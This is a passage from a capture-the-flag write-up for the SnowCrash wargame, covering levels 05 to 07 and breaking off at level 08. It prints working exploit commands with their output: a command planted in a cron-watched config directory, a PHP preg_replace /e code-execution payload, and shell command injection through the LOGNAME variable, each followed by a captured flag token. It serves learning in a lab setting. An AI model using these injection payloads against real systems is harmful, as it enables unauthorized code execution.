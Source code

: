 We write a file that will execute getflag and send the result in /tmp/flag
```bash
level05@SnowCrash:~$ echo "getflag > /tmp/flag" > /opt/openarenaserver/conf
```

After waiting 2 minute we can get the flag00
```bash
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
## Level 06

We can see the following in level06 home. There is a PHP file that will execute a function to format the text of a file given in the argument.

```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

```bash
level06@SnowCrash:~$ echo '[x {${exec(getflag)}}]' > /tmp/file
level06@SnowCrash:~$ ./level06 /tmp/file
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
## Level 07
In this exercise, we have a compiled program with nm and strings. We don't have a lot of information about it.

With ltrace, we can see that the program will recover an environment variable called LOGNAME, which is set as level07. If we change the value of this variable by getflag, when we execute the level07, it will display getflag because the program displays the log name. If we add a ";" and a new command, technically, it will display getflag AND execute our command

```bash
level07@SnowCrash:~$ export LOGNAME="; getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
## Level 08
In this level, we have a level08 file and a token file in our home directory.
When we launch the program with ltrace we see that the program use strstr to avoid token filename.
